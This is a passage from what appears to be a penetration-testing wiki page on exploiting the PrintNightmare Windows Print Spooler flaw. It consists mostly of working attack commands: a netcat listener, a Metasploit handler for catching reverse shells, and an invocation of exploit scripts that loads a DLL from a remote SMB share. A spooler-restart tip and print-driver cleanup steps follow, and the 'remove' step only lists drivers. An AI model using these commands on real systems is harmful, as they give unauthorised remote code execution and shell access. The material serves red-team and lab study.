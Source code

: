 ```bash
nc -nlvp 80
```

#### MSF multi handler

```bash
msfconsole -x "use exploit/multi/handler;\
set payload generic/shell_reverse_tcp;\
set LHOST 172.16.0.137;\
set LPORT 80;\
set ExitOnSession false;\
run -j"
```

### Run printnightmare

```bash
python3 [MSPAR|MSRPRN|MSRPRN_nobrute].py  'domain/user:pass@ip' PrinterName '\\IP_of_SMB_share\share\printer.dll'
```

{{% notice warning %}}
From my experience the Spooler services sometimes crashes/hangs and you wont be able to run printnightmare a second time if you don't restart the spooler service. If you don't spawn a new process in the DLL ensure that the first thing you do is restart the spooler service.
{{% /notice %}}

```bash
net stop spooler && net start spooler
```

![Run](images/run_printnightmare.png)

### Cleanup

### PowerShell

#### Load PrintManagement PS Module (should be loaded by default on W10)

```PowerShell
Import-Module PrintManagement
```

#### List current print drivers

```PowerShell
Get-PrinterDriver
```

#### Remove print drivers

```PowerShell
Get-PrinterDriver -Name PrinterName
```
